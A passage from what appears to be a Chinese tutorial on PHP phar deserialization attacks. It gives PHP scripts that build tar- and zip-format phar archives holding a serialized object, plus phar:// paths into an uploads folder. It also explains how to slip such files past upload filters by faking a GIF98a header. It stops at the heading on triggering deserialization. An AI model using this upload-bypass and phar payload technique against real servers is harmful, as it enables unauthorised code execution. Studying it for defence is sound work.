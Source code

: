 tar包装：

复制

```
<?php
class User {
    Public $name；
}

$o = new User();   
$o->name = 'JrXnm';
@unlink("phar.tar");
@system('rm -r .phar');
@system('mkdir .phar');
file_put_contents('.phar/.metadata',serialize($o));
system('tar -cf phar.tar .phar/*');

// phar://./phar.tar
// phar:///var/www/html/uploads/phar.tar
```

zip包装：

复制

```
<?php
class User {
    Public $name；
}

$o = new User();   
$o->name = 'JrXnm';
$d = serialize($o);
if(file_exists('phar.zip')) {
    @unlink("phar.zip");
}
$zip = new ZipArchive;
$res = $zip->open('phar.zip', ZipArchive::CREATE);
$zip->addFromString('test.txt', 'file content goes here');
$zip->setArchiveComment($d);
$zip->close();

// phar://./phar.zip
// phar:///var/www/html/uploads/phar.zip
```

**上传到服务器**

phar文件是很容易绕过上传限制的，首先它的后缀是不限制的，改成什么phar://协议都可以解析。

前面这个标志的格式为`xxx<?php xxx; __HALT_COMPILER();?>` 前面内容不限，这样可以在前面添加注入`GIF98a`这样的文件头绕过上传限制。

**反序列化执行**
